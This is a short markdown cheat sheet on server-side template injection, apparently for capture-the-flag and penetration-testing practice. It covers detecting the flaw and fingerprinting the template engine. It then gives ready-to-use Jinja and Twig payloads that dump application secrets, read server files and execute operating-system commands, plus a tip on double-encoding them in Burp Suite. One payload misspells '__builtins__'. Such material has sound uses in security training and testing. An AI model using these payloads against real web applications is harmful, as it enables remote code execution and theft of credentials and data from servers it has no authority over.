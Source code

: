 # Server Side Template Injection (SSTI)

## Is the Web App Vulnerable?
Inject the following string:
`${{<%[%'"}}%\\.`
If it causes an error then the application might be vulnerable.

## Identifying the Template Engine
Start by injecting the payload `{7*7}`, then follow the diagram from left to right depending on the result of the injection.
- Green = successful arrow
- Red = unsuccessful arrow
A successful result for `{7*7}` would be if you see `49` rendered on the web page. That means you have successfully injected a payload.
![SSTI Diagram](ssti-diagram.webp)

## Jinja Exploitation
Jinja is a Python templating engine that is usually used with either Flask or Django. The payloads below are targeted at Flask applications. If the payloads do not work check if the app is built with Python and Django.
### Show Application Configuration
This might show secret keys, API keys, or even database or other types of passwords.
`{{config.items()}}`
### Dump All Available Built-in Functions
`{{self.__init__.__globals__.__buitlins__}}`
### Reading System Files
You can read files on the server's filesystem such as the users file or any other files (like a flag for the CTF).
`{{self.__init__.__globals__.__builtins__.open("<filename>").read()}}`
### Remote Code Execution (RCE)
This will allow you to run commands on the server which is very dangerous.
`{{self.__init__.__globals__.__builtins__.__import__('os').popen('<command-to-run>').read()}}`

## Exploiting Twig
Twig is a PHP templating engine, so if you know that the web app is built with PHP it is worth trying.
### Application Information
`{{_self}}`
It might not show a lot of information but it is worth a try.
### Reading System Files
`{{"<filename>"|file_excerpt(1,-1)}}`
### Remote Code Execution (RCE)
`{{['<command-to-run>']|filter('system')}}`

**Note: If you are sending the payloads above as part of request parameters you might have to double encode the characters (in burpsuite highlight the payload and press Ctrl+U 2 times.**

## Extra Resources
- [Jinja Payloads](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
